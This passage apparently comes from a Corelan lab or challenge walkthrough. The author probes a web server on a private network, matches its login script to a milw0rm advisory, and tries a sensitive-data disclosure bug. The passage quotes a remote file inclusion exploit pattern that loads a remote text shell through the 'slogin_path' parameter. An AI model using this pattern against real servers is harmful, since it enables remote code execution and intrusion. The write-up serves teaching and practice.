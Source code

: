 In fact, [http://192.168.6.66/1/version.txt](http://192.168.6.66/1/version.txt) confirms that this might be the code that is installed on the system :

[![image](../../../_resources/ff7c108fd5894b15a3c9946769db41fc.png "image")](https://www.corelan.be/wp-content/uploads/2010/05/image20.png)

Based on the milw0rm entry, it looks like this code may be vulnerable to a RFI (Remote File Inclusion / Sensitive Data Disclosure bug)

Let’s try the Data Disclosure bug first.   The advisory states that the default username/password file is called slog_users.txt.

Unfortunately this file does not contain what we had expected :

[![image](../../../_resources/3ffc70bea8e84339a6f6debf487d2dfc.png "image")](https://www.corelan.be/wp-content/uploads/2010/05/image21.png)

(maybe they renamed the file and changed the filename in slogin_lib.inc.php). We can try to bruteforce these files, but let’s save some time and try to find out if we can use the RFI bug. An RFI bug can lead to a lot of things, including injecting code and run it on the webserver (if we can for example inject it into a file that is used in a vulnerable “include” statement).

A request to [http://192.168.6.66/1/slogin_lib.inc.php](http://192.168.6.66/1/slogin_lib.inc.php) resulted in a 200 OK reply, so the file seems to be there.

The exploit code (milw0rm) indicates that this “Simple Text-File Login script”  file (slogin_lib.inc.php) can be exploited using the following request :

```
[!] EXPLOIT: /[path]/slogin_lib.inc.php?slogin_path=[remote_txt_shell]
```

> Current time is 3:30am. Time for bed.
> 
> Sunday morning, 10am. Back in business, time to continue work… reading all about the RFI bug, trying out some requests… but nothing seems to work today.
